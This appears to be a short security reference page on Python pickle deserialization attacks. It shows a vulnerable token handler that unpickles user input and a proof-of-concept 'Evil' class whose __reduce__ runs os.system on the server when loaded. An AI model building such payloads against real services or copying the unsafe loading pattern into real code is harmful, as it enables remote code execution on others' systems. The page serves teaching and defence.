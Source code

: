 # Python Deserialization

## Pickle

The following code is a simple example of using cPickle in order to generate an auth_token which is a serialized User object.

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input.

```
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

```
import cPickle
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

## References

[```https://blog.nelhage.com/2011/03/exploiting-pickle/```](https://blog.nelhage.com/2011/03/exploiting-pickle/)
[```http://xhyumiracle.com/python-pickle-injection/```](http://xhyumiracle.com/python-pickle-injection/)
[```https://www.mandiant.com/resources/hunting-deserialization-exploits```](https://www.mandiant.com/resources/hunting-deserialization-exploits)
[```https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html```](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
